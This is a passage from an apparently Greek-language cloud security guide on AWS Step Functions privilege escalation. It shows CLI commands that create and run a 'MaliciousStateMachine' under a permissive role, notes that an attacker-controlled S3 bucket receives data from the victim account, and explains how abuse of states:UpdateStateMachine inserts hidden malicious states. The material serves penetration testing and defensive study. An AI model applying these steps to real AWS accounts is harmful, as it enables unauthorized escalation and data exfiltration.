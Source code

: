 {% code overflow="wrap" %}
```bash
aws stepfunctions create-state-machine --name MaliciousStateMachine --definition file://stateMachineDefinition.json --role-arn arn:aws:iam::123456789012:role/PermissiveRole
{
"stateMachineArn": "arn:aws:states:us-east-1:123456789012:stateMachine:MaliciousStateMachine",
"creationDate": "2024-07-09T20:29:35.381000+02:00"
}
```
{% endcode %}

* **Εντολή** που εκτελείται για να **ξεκινήσει μια εκτέλεση** της προηγουμένως δημιουργημένης μηχανής καταστάσεων:

{% code overflow="wrap" %}
```json
aws stepfunctions start-execution --state-machine-arn arn:aws:states:us-east-1:123456789012:stateMachine:MaliciousStateMachine
{
"executionArn": "arn:aws:states:us-east-1:123456789012:execution:MaliciousStateMachine:1a2b3c4d-1a2b-1a2b-1a2b-1a2b3c4d5e6f",
"startDate": "2024-07-09T20:33:35.466000+02:00"
}
```
{% endcode %}

{% hint style="warning" %}
Ο ελεγχόμενος από τον επιτιθέμενο S3 κάδος θα πρέπει να έχει δικαιώματα να αποδέχεται μια ενέργεια s3:PutObject από τον λογαριασμό του θύματος.
{% endhint %}

**Πιθανές Επιπτώσεις**: Μη εξουσιοδοτημένη εκτέλεση και χειρισμός ροών εργασίας και πρόσβαση σε ευαίσθητους πόρους, που μπορεί να οδηγήσει σε σημαντικές παραβιάσεις ασφάλειας.

### `states:UpdateStateMachine` & (όχι πάντα απαραίτητο) `iam:PassRole`

Ένας επιτιθέμενος με την άδεια **`states:UpdateStateMachine`** θα μπορούσε να τροποποιήσει τον ορισμό μιας μηχανής καταστάσεων, προσθέτοντας επιπλέον κρυφές καταστάσεις που θα μπορούσαν να καταλήξουν σε κλιμάκωση προνομίων. Με αυτόν τον τρόπο, όταν ένας νόμιμος χρήστης ξεκινά μια εκτέλεση της μηχανής καταστάσεων, αυτή η νέα κακόβουλη κρυφή κατάσταση θα εκτελείται και η κλιμάκωση προνομίων θα είναι επιτυχής.

Ανάλογα με το πόσο επιτρεπτικός είναι ο IAM Ρόλος που σχετίζεται με τη μηχανή καταστάσεων, ένας επιτιθέμενος θα αντιμετωπίσει 2 καταστάσεις:

1. **Επιτρεπτικός IAM Ρόλος**: Εάν ο IAM Ρόλος που σχετίζεται με τη μηχανή καταστάσεων είναι ήδη επιτρεπτικός (έχει για παράδειγμα την πολιτική **`arn:aws:iam::aws:policy/AdministratorAccess`** συνημμένη), τότε η άδεια **`iam:PassRole`** δεν θα απαιτείται προκειμένου να κλιμακωθούν τα προνόμια, καθώς δεν θα είναι απαραίτητο να ενημερωθεί και ο IAM Ρόλος, με τον ορισμό της μηχανής καταστάσεων να είναι αρκετός.
2. **Μη επιτρεπτικός IAM Ρόλος**: Σε αντίθεση με την προηγούμενη περίπτωση, εδώ ένας επιτιθέμενος θα απαιτήσει επίσης την άδεια **`iam:PassRole`** καθώς θα είναι απαραίτητο να συσχετιστεί ένας επιτρεπτικός IAM Ρόλος με τη μηχανή καταστάσεων εκτός από την τροποποίηση του ορισμού της μηχανής καταστάσεων.
